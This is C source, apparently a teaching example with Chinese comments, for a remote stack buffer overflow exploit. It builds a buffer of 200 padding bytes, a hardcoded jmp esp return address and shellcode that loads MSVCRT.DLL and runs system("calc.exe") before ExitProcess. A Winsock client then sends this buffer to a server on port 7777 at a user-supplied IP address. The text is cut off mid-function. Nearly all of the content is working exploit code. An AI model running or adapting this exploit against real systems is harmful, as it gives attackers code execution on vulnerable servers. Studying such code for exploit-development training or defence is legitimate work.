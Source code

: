 ```
"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
"aaaaa"//200个a
"\x53\x93\xd2\x77"//jmp esp
"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
"\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
"\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
"\x7b\x1d\x80\x7c"  //loadlibraryA地址
"\x52\x8D\x45\xF4\x50" 
"\xFF\x55\xF0"
"\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x61\x6c\x63\x89\x45\xF4\xB8\x2e\x65\x78\x65" 
"\x89\x45\xF8\xB8\x20\x20\x20\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4" 
"\x50\xB8"
"\xc7\x93\xbf\x77" //sytem函数地址 system("calc.exe");
"\xFF\xD0"
"\x53\xb8\xfa\xca\x81\x7c"//ExitProcess Address
"\xff\xd0"//ExitProcess(0);
;


void main(int argc, char* argv[])
{
	int fd;
	int rtval;
	struct sockaddr_in addr;

	WORD wVersionRequested;
        WSADATA wsaData;
        int err;

	wVersionRequested = MAKEWORD(2, 2);
	   
	err = WSAStartup(wVersionRequested, &wsaData);
	if (err != 0) 
	{
		   /* Tell the user that we could not find a usable */
		   /* Winsock DLL.                                  */
		   printf("WSAStartup failed with error: %d\n", err);
		   return;
        }
	//建立TCP套接字
	fd = socket(AF_INET, SOCK_STREAM, 0);
	//初始化客户端地址
	memset(&addr, 0, sizeof (addr));
	//设置地址协议族
	addr.sin_family = AF_INET;
	//设置要连接的IP地址
	addr.sin_addr.s_addr = inet_addr(argv[1]);
	//设置端口
	addr.sin_port = htons(7777);
	//连接服务器端
	rtval = connect(fd, (struct sockaddr *)&addr, sizeof (addr));
	if (rtval == -1)
		return;
	//向服务器端写数据
	printf("normal input:hello world\n");
	send(fd, (const char *)"hello world",strlen("hello world")+1,0);
        printf("press any key to start overflow\n");
	getch();
	send(fd, (const char *)buff, sizeof(buff),0);   //传送buf中的数据
	//从服务器端读数据
	//recv(fd, buff, 80,0);
```